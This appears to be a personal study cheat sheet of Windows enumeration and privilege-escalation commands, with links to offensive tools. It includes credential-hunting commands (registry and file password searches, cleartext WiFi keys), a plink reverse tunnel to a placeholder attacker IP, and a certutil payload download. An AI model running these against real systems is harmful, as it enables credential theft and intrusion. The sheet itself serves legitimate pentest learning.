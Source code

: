 # Windows Survey and Privilege Escalation (work in progress)

Windows commands, instrumentation, and powershell cmdlets for enumeration

wmic = Windows Managmenet Instrumentatiom Commandline
*Get* commmands are powershell cmdlets

#### System Information:
```
systeminfo
ver 
hostname

# only OS information 
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

# verbose hotfix (patch) info 
wmic qfe
wmic qfe get Caption,Description,HotFixID,InstalledOn

# disk drives
wmic logicaldisk get caption,description,providername 
```
<br/>

#### Enviornment variables:
```
set

# powershell
Get-ChildItem Env: | ft Key,Value
```

View the current user's information:
```
# username
whoami
echo %username%
$env:UserName

# user details
whoami /priv
whoami /all
net user <USERNAME>

# detailed account information and group memberships:
net user <USERNAME> 
```

Enumerate users and groups: 
```
# who else is logged in 
qwinsta

# local users
net user
net user <USERNAME>
Get-LocalUser

# domain users 
net user /domain 
net user <USERNAME> /domain

#search through user directories
tree /f /a C:\Users\<USERNAME>
Get-ChildItem C:\Users\<USERNAME> -Force

# local groups 
net localgroup
Get-LocalGroups

# users in the group
net localgroup <GROUP>
Get-LocalGroupMember <GROUP>

# domain groups 
net groups
net groups /domain

page 627
```
Networking:
```
ipconfig
ipconfig /all
route print
arp -a
type C:\windows\system32\drivers\etc\networks

# display active TCP/UDP connections:
netstat -ano

# connections with executeanle 
netstat -bano
```


Firewall Status:
```

# windows defender
sc query windefend

# firewall
netsh firewall show state
netsh firewall  show config
```


Password hunting:
```
# current directory
findstr /si password *.txt *.ini *.config *.xml

# look through payloadallthethings


# wifi passwords
netsh wlan show profile
netsh wlan show profile <SSID> key=clear | findstr "Key Content"
```


Registry:

```
# windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

Search the HIVES:
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


Running proceeses:
```
wmic process list brief
sc queryex type= service 
sc queryex type= service  | finstr "SERVICE NAME"
```

Set up port forwarding for services only available on the local machine:
```
# Port forward using plink
plink.exe -l <ATTACKER_USERNAME> -pw <ATTACKER_PASSOWRD> -R <ATTACKER_PORT>:127.0.0.1:<VICTIM_PORT> <ATTACKER_IP>

#The attacker port should provide access to the service from the attacker port on the attacker machine
```

<br /> 

Scripts: 
* winPEAS.bat
* windows-exploit-suggester.py
* WinEnum.ps1

Tools

## Bloodhound
```
#install
sudo apt install bloodhound 

#start bloodhound
bloodhound

#start neo4
neo4j console

#run sharphound on the target windows machine
./Sharphound.exe

#copy the zip file to your attacking machine, drag and drop into neo4j
```
Reference Sauna HTB machine


### Automated Enumeration Tools
- [winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- Windows Priv Esc Checklist: https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
- Sherlock: https://github.com/rasta-mouse/Sherlock
- Watson: https://github.com/rasta-mouse/Watson
- PowerUp: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- JAWS: https://github.com/411Hall/JAWS
- Windows Exploit Suggester: https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- Metasploit Local Exploit Suggester: https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
```
msf > run post/multi/recon/local_exploit_suggester
```
- Seatbelt: https://github.com/GhostPack/Seatbelt
- SharpUp: https://github.com/GhostPack/SharpUp


### Techniques 

UAC Bypass - https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/
Juicy Potato 
* must tell which CLSID to run or let it choose for you which may work 
** well known list for each OS - https://github.com/ohpe/juicy-potato/tree/master/CLSID

icacls - what files do we have read/write/execute abilites?


### Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits

### Transferring Files

Getting files onto the target machine:
```
# grab file from a webserver
certutil -urlcache -f http://<IP_ADDR>/<FILE>


### Referenced Checklists
1. https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
2. Udemy Windows Privilege Escalation for Beginners Course


